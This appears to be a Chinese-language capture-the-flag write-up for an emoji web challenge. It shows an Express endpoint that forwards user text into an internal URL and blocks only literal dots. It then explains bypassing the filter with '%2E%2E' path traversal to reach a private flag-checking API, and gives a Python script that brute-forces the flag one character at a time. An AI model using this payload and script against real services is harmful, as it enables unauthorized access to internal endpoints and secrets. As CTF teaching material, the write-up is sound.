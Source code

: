 基本功能就是輸入 emoji 的 text 名稱後系統會吐出 emoji。User control 的 api 是 `/public_api`，payload 格式是 JSON `text: "cat"`。

從提供的 Source Code 來看，這是一個用 express 寫的簡單後端伺服器，**分為 Public 以及 Private Server**，運作方式是 public_api 取得 text 後，**把這個 text 濾掉 `.` 後直接當作 private server 的 url 去取資料**。這個 path traversal 防禦基本上等於沒做，因為 `.` 有別的 encode 方式（最有名的就是 `%2E`）就可以直接 bypass 掉了。

```js
app.post("/public_api", (request, response) => {
    const text = request.body.text.toString();

    if (!text.match(/^\S+$/) || text.includes(".")) {
        response.send({ error: "Bad parameter" });
        return;
    }

    const url = `http://127.0.0.1:7414/api/v1/emoji/${text}`;
    http.get(url, result => {
        result.setEncoding("utf-8");
        if (result.statusCode === 200)
            result.on('data', data => response.send(JSON.parse(data)));
        else
            response.send({ error: result.statusCode });
    });
});
```

剛好 private server 又有開一隻 API `/looksLikeFlag`，可以用來 check query 中的字串是不是在 Flag 中有出現。所以我們目標就很明確了，給個簡單的 Charset 去一個一個測試 flag 的組合，就可以得到我們的 Flag 了。

```py
from requests import post, get
from tqdm import tqdm
import string
import json

targetUrl = "http://splitline.tw:5000/public_api"
getPayload = "%2E%2E/looksLikeFlag"

flag = "FLAG{"

charset = string.ascii_letters + string.digits + '+=_\{\}'

while True:
    test = False
    for c in tqdm(charset):

        payload = {"text": f"{getPayload}?flag={flag+c}"}
        print(payload)

        data = post(targetUrl, json=payload)
        
        if "true" in data.text:
            flag+=c
            test = True
            print(flag)
            break

    if not test:
        break

print(flag)
```